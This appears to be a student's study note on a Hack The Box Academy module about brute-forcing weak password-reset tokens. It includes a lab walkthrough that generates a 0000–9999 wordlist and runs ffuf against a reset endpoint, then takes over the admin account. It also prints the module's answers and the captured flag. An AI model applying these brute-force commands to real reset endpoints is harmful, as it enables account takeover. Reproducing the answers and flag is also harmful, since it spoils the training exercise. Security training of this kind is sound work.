 ```yaml
---
sticker: emoji//1faaa
---
```

Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

---

## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:

![image](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_1.png)

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the GET-parameter `token`. In this example, the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

---

## Attacking Weak Reset Tokens

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`:

```bash
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

The `-w` flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

```bash
smoothment@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in `ffuf` to brute-force all active reset-tokens:


```bash
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameter `token` in the `/reset_password.php` endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

![](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_2.png)

# Questions
---

![[Pasted image 20250214152014.png]]

The answers for the first three questions are:

```ad-note
1. `one-time reset token`
2. `-w`
3. `1000000`
```

Now, let's go to the web application:

![[Pasted image 20250214160759.png]]

We got a login functionality, we can reset out password, let's check it out:

![[Pasted image 20250214160832.png]]

As seen, we are redirected to `/reset.php`, the input is not properly sanitized, which means, we could send a password reset for other users, for example, let's send a password reset for `admin`:

![[Pasted image 20250214161036.png]]

If we try going to `/reset_password.php`, we get the following:

![[Pasted image 20250214161111.png]]

So, we need a token, we can try brute-forcing the token using the following, first, let's generate a sequence of tokens from `0000` to `9999`, which is the maximum length of 4 digits tokens:


```bash
seq -w 0 9999 > tokens.txt
```

Once we got our `tokens.txt` file, we can use ffuf:

```
ffuf -w tokens.txt -u "http://IP:PORT/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w ./tokens.txt -u "http://94.237.54.164:33815/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.54.164:33815/reset_password.php?token=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: The provided token is invalid
________________________________________________

6583                    [Status: 200, Size: 2920, Words: 596, Lines: 92, Duration: 3672ms]
```

Got our token:

```
6583
```

Now, let's visit the following URL:

```
http://IP:PORT/reset_password.php?token=6583
```

We'd see this:

![[Pasted image 20250214161805.png]]

We are able to reset the password, let's simply do the following credentials:

```ad-note
`admin`:`password`
```

Now we can log in:

![[Pasted image 20250214162106.png]]

![[Pasted image 20250214162128.png]]

Flag is:

```
HTB{36da098385e641d54e1b2750721d816e}
```